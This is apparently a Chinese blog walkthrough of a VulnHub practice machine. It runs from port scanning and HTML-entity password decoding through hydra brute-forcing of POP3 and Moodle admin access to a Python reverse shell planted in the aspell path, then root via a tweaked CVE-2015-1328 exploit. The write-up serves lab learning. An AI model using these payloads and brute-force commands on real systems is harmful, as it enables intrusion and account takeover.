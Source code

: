 #信息收集
![image.png](https://upload-images.jianshu.io/upload_images/9177635-6e0f54ac0f71031c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
安装好靶机以后，netdiscover检测到目标ip地址为：192.168.3.131
快速扫描靶机提供的服务：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-5de2d660f551a176.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
只探测到了80端口和25端口。ok，打开http服务查看一下：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-dd7fe49793570605.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
显示在/sev-home/里有登录模块，打开查看，有一个http的验证框
![image.png](https://upload-images.jianshu.io/upload_images/9177635-04066c5ebf1a1928.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
关掉验证框，回到首页，查看html的源代码：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-95c0ed3d28ebc39f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
发现一个叫terminal.js的东西，点击查看：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-3fb8660a3f65b309.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
在注释里，我们得到了两个用户名：boris和natalya，以及一串看起来是被加密的密码：
```&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;```
直接把上面这串东西丢到，谷歌输入框直接就解码成了明文：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-ce51a4d6efd7dd16.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
密码是：```InvincibleHack3r```
现在我们用boris：InvincibleHack3r登录上面的/sev-home/，得到页面：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-36ea0c88ef0fb166.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
留意文字，期中提到：
*Remember, since security by obscurity is very effective, we have configured our pop3 service to run on a very high non-default port*
有一个pop3服务开启了，但不是放在默认的端口（110），我们上面只扫到了80和25端口，看来要全端口扫描一次：
执行：
```nmap -sS -sV -p 1~65535 -A 192.168.3.131```
![image.png](https://upload-images.jianshu.io/upload_images/9177635-6a2cd9073b0f1f5d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
再次扫出两个高段的端口，55006看上去是开启了ssl服务，那55007应该就是pop3服务的端口
虽然nmap这里没有显示出来，但是可以用msf验证一下：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-5ef7f2c3ccf674d2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
成功验证55007位pop3端口

在http://192.168.3.131/sev-home/里，第二段话内容被加粗了，看起来邮箱里会有些什么线索。
![image.png](https://upload-images.jianshu.io/upload_images/9177635-db193477aad4e0f6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

多说两句smtp和pop3服务，smtp是邮件服务器之间的通信协议，pop3是个人与邮件服务器之间的通信协议。
比如说我和小明通信，我用的是Gmail邮箱 服务，小明用的是QQ邮箱服务，我给小明发一封邮件。Gmail投递到QQ的邮件服务器，用的是smtp服务，小明登录自己的账号拉取邮件的时候用的就是pop3服务。
#攻击
只要我们知道了用户名和密码，就可以通过pop3协议登录个人的邮箱，查看邮件内容。那么现在，我们根据上面收集到的两个用户名boris和natalya，制作成一个用户字典user.txt，再用hydra爆破这两个账号的pop3密码
执行：```hydra -L /root/user.txt -P /usr/share/wordlists/fasttrack.txt pop3://192.168.3.131 -s 55007```
![image.png](https://upload-images.jianshu.io/upload_images/9177635-9115d82bbc2fac55.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
成功爆破到两个账号的密码：
```login: boris   password: secret1!```
```login: natalya   password: bird```

用telnet 192.168.3.131 55007登录boris的邮箱，发现有三封邮件
![image.png](https://upload-images.jianshu.io/upload_images/9177635-153116896e40461e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

逐一查看邮件：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-3336aafe092faf56.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
没有太多有用的信息，登录natalya的账号：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-7bd5820fcf6369c3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
有两份邮件，查看：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-798afb54f6688bfe.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
发现了一组登录信息，并且邮件里说/gnocertdir/是登陆的网站，不过需要在本地host文件里，把这个域名和域名做绑定，否则会被重定向到某个网站，把这行添加到host里面：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-a7d3a602e300fd73.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
ok,打开/gnocertdir/，显示一个登陆页面
![image.png](https://upload-images.jianshu.io/upload_images/9177635-f9f334ae1a774c9c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
用上面的信息登录
username: xenia
password: RCP90rulez!
![image.png](https://upload-images.jianshu.io/upload_images/9177635-3aeac128ff7e0e91.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
显示一个叫moodle的cms的后台，我尝试在这个后台里找了很多可以上传后门的攻击点，都一一失败了，上传后的文件只能供下载，不能查看。看来此路不通。
线上搜索moodle的可利用漏洞，msf里有一个现成的，但貌似不行。心灰意冷之际，随便查看了一下这个后台的其他模块，发现了一封站内邮件：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-52f1b7fd0f030414.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
看来是一个叫doak的管理员发来的信件，ok，现在我们又找到一个用户名，再次爆破这个用户的邮件密码：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-89bc01d56cd4c224.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
得到登录信息：``` login: doak   password: goat```
登录这个账号的邮箱，查看邮件
![image.png](https://upload-images.jianshu.io/upload_images/9177635-87f3c3bffbd14bfa.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
再次得到一个后台管理人员的登陆信息：
```username: dr_doak password: 4England!```
用这个信息登录后台，看到一个私密文件```s3cret.txt```：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-55e2b2054b9cd2d4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
按照提示，在url打开/dir007key/for-007.jpg，显示一张图片：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-3870b41824a7ac4e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
底下一行文字显示：```picked up a lift access key```，应该是提示在图片里找线索，把图片下载到本地查看属性，发现标题被加密了，看样子像base64加密的
![image.png](https://upload-images.jianshu.io/upload_images/9177635-ffcda5efe9b67343.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
用hackbar工具解密出来
![image.png](https://upload-images.jianshu.io/upload_images/9177635-e99ced909dc1276e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
得到明文：```xWinter1995x!```
用账号admin尝试登陆，登陆成功，超级管理员账号下多了几个模块。
![image.png](https://upload-images.jianshu.io/upload_images/9177635-63dc0e3045131295.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在admin下的攻击我枚举了很久，最后还是参考了网上其他大佬的方法。
首先：
在Home / ► Site administration / ► Plugins / ► Text editors / ► TinyMCE HTML editor下，把Spell engine设置为Pspellshell
![image.png](https://upload-images.jianshu.io/upload_images/9177635-fd489337dcf276f9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
第二步，构建一个反弹shell，payload为：
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.3.97",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

当然IP和端口要换成你自己的。

去到Home / ► Site administration / ► Server / ► System paths
把上面的payload放到Path to aspell
![image.png](https://upload-images.jianshu.io/upload_images/9177635-e9bc8b13af0e2483.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

第三步,在攻击机开启nc监听：```nc -lvp 6666```
![image.png](https://upload-images.jianshu.io/upload_images/9177635-bbb90c108dc61914.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

第四步，在后台点击任何一个富文本编辑器，点击拼写检查按钮，就是圈起来的那个地方：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-b7bc662ab57cc3f8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

成功获得一个反弹shell
![image.png](https://upload-images.jianshu.io/upload_images/9177635-6b9b4e4234cea865.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


   #提权
查看靶机内核
![image.png](https://upload-images.jianshu.io/upload_images/9177635-4baebd4574d1325e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
显示内核版本为：Linux ubuntu 3.13.0-32-generic 
在攻击机开启一个http服务，从靶机下载les.sh到本地，枚举提权漏洞

![image.png](https://upload-images.jianshu.io/upload_images/9177635-6a4d226db16ac684.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

选择内核版本和靶机一样的CVE-2015-1328
![image.png](https://upload-images.jianshu.io/upload_images/9177635-4b9a9c08ed936f57.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
编译以后传到靶机，发现失败了
![image.png](https://upload-images.jianshu.io/upload_images/9177635-014c195b9e46026c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
提示靶机没有gcc编译，我们查看攻击代码，发现其中有一行为：
![image.png](https://upload-images.jianshu.io/upload_images/9177635-b3a648e92249f7bf.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
这里有需要用到gcc命令，我们把
```lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");```
改为：
```lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");```
编译，下载，执行
![image.png](https://upload-images.jianshu.io/upload_images/9177635-4a53e14e463a8f77.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
拿到root权限
查找flag，需要用ls -alh显示隐藏文件
![image.png](https://upload-images.jianshu.io/upload_images/9177635-f6d311e7d12fd374.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
根据.flag.txt提示打开http://severnaya-station.com/006-final/xvf7-flag/
![image.png](https://upload-images.jianshu.io/upload_images/9177635-bdbc82df24f542bf.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#总结
感觉vulnhub的靶机都是这种风格，一环接一环，像寻宝一样，真实环境的渗透，可能不太会有这种情况，不过当一个游戏玩的话，每找到一个新的线索时还是挺令人兴奋的。
攻击手段算是开了眼界，再也不是msf一把唆，但是攻击原理后面还是要再深入了解一下。。
提权的时候要学位根据错误提示修改提权脚本，这台靶机没有gcc编译，但是支持cc编译。cc是Unix系统的C Compiler，而gcc则是GNU Compiler Collection，属于linux。这些都要靠积累，不是C/C++程序员可能不太清楚这之间的联系和分别。





